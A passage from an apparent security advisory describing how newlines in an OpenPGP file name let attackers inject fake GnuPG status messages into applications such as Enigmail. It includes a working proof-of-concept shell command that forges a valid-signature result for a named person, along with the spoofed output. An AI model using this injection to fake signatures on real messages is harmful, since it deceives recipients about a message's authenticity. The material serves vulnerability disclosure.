 * Some applications call GnuPG with `--status-fd 2` such that *`stderr`
  and the status messages are combined in a single data
  pipe.* These applications try to separate the output lines afterwards
  based on the line prefix (which is `[GNUPG:]` for status messages
  and `gpg:` for `stderr`).
* GnuPG, with `verbose` enabled (either directly on the command line
  or indirectly through the `gpg.conf` configuration file), prints the
  "name of the encrypted file" (an obscure feature of OpenPGP under
  the control of the attacker) to `stderr` *without escaping newline
  characters*.

The attacker can **inject arbitrary (fake) GnuPG status messages into
the application parser to spoof signature verification and message
decryption results.** The attacker can control the key ids, algorithm
specifiers, creation times and user ids, and does not need any of the
private or public keys involved.

The only limitation is that all status messages need to fit into 255
characters, which is the limit for the "name of the encrypted file" in
OpenPGP.

## Proof of concept I: Signature spoof (Enigmail, GPGTools)

Here is how to create a message that looks signed in
Enigmail, but is not actually signed (replace `VICTIM_KEYID` by the
desired recipient):

```
$ echo 'Please send me one of those expensive washing machines.' \
| gpg --armor -r VICTIM_KEYID --encrypt --set-filename "`echo -ne \''\
\n[GNUPG:] GOODSIG DB1187B9DD5F693B Patrick Brunschwig <patrick@enigmail.net>\
\n[GNUPG:] VALIDSIG 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B 2018-05-31 1527721037 0 4 0 1 10 01 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B\
\n[GNUPG:] TRUST_FULLY 0 classic\
\ngpg: '\'`" > poc1.msg
```

Analyzing the message with GnupG (with `--verbose`) leads to the following output:

```
$ cat poc1.msg | gpg --status-fd 2 --verbose
... (lots of output snipped) ...
gpg: original file name=''
[GNUPG:] GOODSIG DB1187B9DD5F693B Patrick Brunschwig <patrick@enigmail.net>
[GNUPG:] VALIDSIG 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B 2018-05-31 1527721037 0 4 0 1 10 01 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B
[GNUPG:] TRUST_FULLY 0 classic
gpg: ''
[GNUPG:] PLAINTEXT 62 1528297411 '%0A[GNUPG:]%20GOODSIG%20DB1187B9DD5F693B%20Patrick%20Brunschwig%20<patrick@enigmail.net>%0A[GNUPG:]%20VALIDSIG%204F9F89F5505AC1D1A260631CDB1187B9DD5F693B%202018-05-31%201527721037%200%204%200%201%2010%2001%204F9F89F5505AC1D1A260631CDB1187B9DD5F693B%0A[GNUPG:]%20TRUST_FULLY%200%20classic%0Agpg:%20'
[GNUPG:] PLAINTEXT_LENGTH 56
... (more output snipped) ...
```
